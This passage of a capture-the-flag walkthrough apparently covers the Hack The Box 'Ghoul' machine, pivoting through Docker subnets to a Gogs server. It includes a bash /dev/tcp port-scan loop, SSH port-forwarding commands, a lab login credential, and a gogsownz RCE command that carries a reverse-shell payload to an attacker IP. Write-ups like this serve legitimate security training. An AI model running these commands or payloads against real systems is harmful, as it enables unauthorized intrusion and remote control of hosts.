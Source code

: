 We see there is another key called kaneki_adm.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-74.png" >}}

We now also have access to ANOTHER subnet.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-73.png" caption="172.18.0.xxx" >}}

So we'll run our same ping scan script as we did before but targeting 172.18.0.xxx this time.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-75.png" caption="3 more IP's." >}}

Now we see 2 more hosts. We really want to scan these host ports, so instead of using /tcp/dev and a shell script to itterate over 65535 ports, which would take forever, we'll just snag the nmap binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap). If you are curious, the shell command for scanning the ports would be something like ```for port in $(seq 1 65535); do (echo > /dev/tcp/172.18.0.2/$port) &> /dev/null && echo "$port is open"; done.```

Once we've downloaded the nmap binary, we will simply wget it from our running HTTP server.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-76.png" >}}

We run a basic scan against 172.18.0.2 and 200.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-77.png" >}}

{{< figure src="__GHOST_URL__/content/images/2019/08/image-78.png" >}}

We have quite a few ports open, .1 seems to have quite a few options available. We don't have curl or telnet available to check the port, but we can wget port 3000, when we do we see that its the Gogs server. You might also know this port if you've done the HTB Craft box as well ;)

Now since we're like 100 containers deep and we want to access this local install of Gogs, we'll need to do some portforwarding. So to accomplish this, we need to send all traffic from port 3000 on 10.10.10.101 to 172.18.0.2:3000. Then on our machine, we send the traffic from 3000 to localhost 3000. So it should looks something like this:

Local HTTP Request --> localhost of attacker:3000 --> 10.10.10.101:3000 --> kaneki-pc:3000 --> 172.18.0.2:300.

It looks sort of complex at first but is fairly easy to accomplish. We start by issueing ```ssh -L 3001:172.18.0.2:3000 -i /home/kaneki/.ssh/id_rsa kaneki_pub@172.20.0.150``` on 10.10.10.101. This is forward the data from port 3000 to port 3001. Then on our attacking machine, we issue ```ssh -L 3002:localhost:3001 root@10.10.10.101```. That will then redirect our 3001 forwarded traffic to 3002. 

If all goes well...

{{< figure src="__GHOST_URL__/content/images/2019/08/image-79.png" >}}

We are prompted with our Gogs login. Now we know that the user is AogiriTest and we know from our earlier enumeration on the TomCat services, what that password might be. Sure enough, that credential combo works.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-80.png" >}}

Now you can google around for Gogs exploits and vulnerabilities. However, if you did the Craft box, you already know what you are looking for. We head back over to [https://github.com/TheZ3ro/gogsownz](https://github.com/TheZ3ro/gogsownz) and snag our script.

We then issue ```python3 gogsownz.py http://127.0.0.1/3002 -C 'AogiriTest':'test@aogiri123' -n i_like_gogits --rce 'bash -c "bash -i >& /dev/tcp/10.10.15.227/7777 )>&1"' ```. You'll also need to be listening on the port you want to accept the connection from as well. Once the exploit is sent, we should see our netcat light up.

